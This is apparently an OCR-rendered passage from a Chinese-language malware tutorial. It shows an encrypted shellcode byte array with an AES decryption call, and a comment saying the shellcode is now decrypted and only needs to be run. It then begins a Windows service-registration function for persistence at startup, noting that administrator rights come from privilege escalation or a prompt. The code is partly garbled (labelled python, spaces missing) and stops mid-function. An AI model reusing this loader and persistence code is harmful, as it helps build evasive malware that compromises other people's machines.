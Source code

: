 ```python
unsignedchar code[]={0xa0,0x82,0xa3,0xbf,0xce,0xd5,0xd5,0xce,0x0,0xf8,0xc1,0x34,0x7f,0x39,0xcf,0xdb,0xf2,0xd3,0x72,0x2c,0xf2,0x8c,0xf7,0xc4,0xaf,0x66,0xb7,0x82,0xb8,0xbe,0x3,0x31,0xfc,0x3d,0x58,0xd0,0x99,0xda,0xdf,0xc2,0x3,0xd,0xa3,0x3d,0x59,0xb,0x73,0x4b,0x38,0xa6,0x1e,0xd7,0xd7,0x9f,0x63,0x84,0xb8,0xe2,0x0,0x53,0x21,0x7f,0x17,0x67,0xfc,0xc7,0xd0,0x72,0x5e,0x86,0xff,0xa4,0x8d,0x47,0x53,0xa0,0x4,0xee,0x6e,0x16,0xe9,0x4e,0x15,0x2,0x6a,0x84,0x8c,0x59,0xd1,0xb0,0x16,0x3b,0x78,0x6a,0x4a,0x16,0xfe,0x44,0x47,0x4e,0x86,0x97,0xb6,0x3b,0xaa,0xff,0xab,0x4,0x80,0x54,0x5e,0xbd,0x8f,0x88,0x8c,0x34,0xdb,0xe8,0xfd,0x49,0xe9,0x16,0x1f,0xff,0x64,0xb3,0xe0,0xce,0x43,0xb1,0x6f,0x55,0xba,0x68,0x30,0xc8,0x77,0x63,0xc9,0xf0,0x23,0x75,0xe,0x82,0xc2,0x76,0x87,0x3e,0x43,0xcd,0x3b,0xb6,0x97,0x33,0x2,0x7c,0x12,0x5e,0xd3,0x74,0x85,0xc5,0x24,0x42,0x45,0x53,0xda,0x4a,0x3e,0x95,0x40,0x57,0x8d,0xd5,0x70,0x6,0xb8,0x3f,0xa4,0x67,0x4,0x42,0xaa,0x61,0x31,0x70,0x2a,0x28,0x9,0x70,0xdd,0xd1,0xf2,0x73,0xd2,0x2f,0x38,0xd4,0x22,0xab,0x68,0xd2,0x63,0x47,0xb3,0x3a,0xee,0xa9,0x6f,0x53,0x83,0xb6,0x4e,0x25,0xbf,0x18,0x41,0xf8,0x3e,0xcd,0x3b,0x97,0x8,0xb3,0x18,0x5c,0x59,0xbf,0xc6,0x7a,0xa,0x6d,0x80,0x9b,0xa3,0x24,0x89,0x8,0x6a,0x27,0x1a,0x25,0x92,0x12,0x81,0x57,0x90,0x6,0x17,0x92,0xaa,0x7e,0x5d,0x7,0xf8,0xd1,0x38,0x74,0x4f,0xab,0xb2,0xc1,0x15,0xf8,0x65,0xf1,0x59,0x68,0x0,0x14,0x58,0x86,0xcf,0xc4,0x3a,0x3b,0xbb,0xc1,0xc5,0xdb,0xef,0x22,0x85,0x5,0xdc,0x89,0x1e,0xc6,0x50,0x81,0x8,0xd,0x22,0xab,0xd8,0x7d,0xc6,0x3c,0xad,0x49,0x10,0xdf,0x6e,0x92,0x88,0x99,0xb8,0x5d,0xa6,0xe3,0x2d,0xb7,0x4c,0xc6,0xbb,0xce,0xd5,0x4c,0x5f,0x7c,0x22,0xcb,0xe7,0x56,0x12,0xd9,0xe6,0x43,0x3e,0xa7,0xc2,0xca,0xf6,0x11,0x10,0x2b,0xd5,0xa9,0xe2,0x9d,0x53,0xb3,0xcf,0x46,0xca,0x65,0xb0,0x3a,0xa4,0x29,0x18,0x53,0x68,0xfc,0xe6,0xcf,0xa6,0xdb,0x80,0xae,0x84,0x98,0x99,0x2e,0x88,0xac,0x7,0x75,0x35,0x9d,0x24,0x59,0x6b,0x4f,0x78,0x34,0xef,0x2b,0x19,0x72,0x34,0x1a,0x52,0x46,0xe9,0x50,0x26,0x12,0xee,0x10,0xd,0x6d,0x3,0x8b,0x73,0x21,0x11,0x22,0x3d,0x17,0xe2,0x39,0x5c,0x6,0xd7,0x21,0xad,0xd1,0x8f,0xd2,0x5f,0xd2,0xeb,0x20,0xd1,0x1c,0x7c,0x64,0xb9,0xa9,0x76,0x1d,0xfa,0xbc,0x10,0x13,0x67,0x8f,0x71,0xf9,0x1d,0x74,0xb5,0xf2,0xd6,0xed,0xd4,0xcf,0xc,0x4f,0xb1,0x3,0x7b,0x6f,0x55,0x13,0x62,0x1c,0x3b,0x17,0xe6,0xa2,0xbf,0x23,0x5d,0x5,0x7a,0x9d,0x39,0x87,0x51,0x13,0xd9,0xae,0xbb,0xb,0xa8,0xfd,0x6c,0x55,0xde,0x18,0x4c,0x98,0xe1,0x31,0x7b,0xd1,0x37,0xbd,0x91,0xc6,0x63,0x92,0x61,0xb9,0x75,0xb4,0xdc,0xcf,0xb9,0xfe,0x5b,0xb4,0x5d,0xd4,0x22,0x6e,0x8d,0xc0,0xd,0xce,0x97,0xd8,0x8b,0x40,0x5c,0x1c,0xcb,0x3,0xb8,0xe9,0x30,0x49,0x95,0xe0,0x3d,0x13,0xd,0x14,0x15,0xb9,0x6b,0xbd,0x9,0xfc,0x77,0x4d,0xac,0xb,0x28,0x69,0xd5,0xec,0x7,0x47,0x50,0x2,0x9c,0x10,0x11,0xf7,0xe,0x55,0x4,0xa3,0x7e,0x5b,0x96,0x36,0x6b,0x62,0xf6,0x65,0x18,0x44,0x82,0x52,0x98,0x98,0x9f,0x8e,0x5f,0xc1,0x92,0x56,0xc0,0xb4,0x54,0x8c,0x65,0xfe,0xb6,0xc6,0x26,0x4,0x9e,0xf0,0xa7,0x75,0x95,0x1e,0x8e,0xd1,0xb0,0x41,0x83,0xe,0x79,0xa9,0x1b,0x28,0x68,0x75,0x8a,0xd0,0x38,0x8b,0x47,0x5a,0xc2,0xe,0x6d,0x96,0x6e,0xe7,0x45,0xe1,0x7e,0x95,0x80,0xf3,0xc4,0xce,0xc5,0x11,0x70,0x63,0x36,0x79,0x5c,0x9e,0x4f,0x35,0xe2,0x6d,0x28,0x4,0x9d,0xdb,0x2a,0x2d,0x8b,0x5f,0xcf,0xb0,0xda,0xab,0x10,0x9b,0xec,0xaf,0x13,0x34,0xe8,0x65,0x2b,0x6f,0xf4,0xc9,0x43,0x35,0x6c,0x56,0x2f,0xa9};

        DWORD code_length =sizeof(code);
        aes((char*)code, code_length, key,sizeof(key));
//现在解密了shellcode，之后运行code函数即可

}

```

# 开机自启动服务项注册

- Windows服务注册需要管理员权限，可以提权后或者弹窗申请管理员权限运行后再执行注册服务功能
```python

#include <windows.h>
#include<string.h>
#include<stdlib.h>
#include<stdio.h>
#include<wincrypt.h>
#include<shlobj.h>
#pragma comment(lib,'crypt32.lib')
#pragma comment(lib,'advapi32.lib')

voidCreateServiceToRunAtStartup(){
    SC_HANDLE schSCManager =OpenSCManager(NULL, NULL, SC_MANAGER_CREATE_SERVICE);
if(schSCManager == NULL){
return;
}

```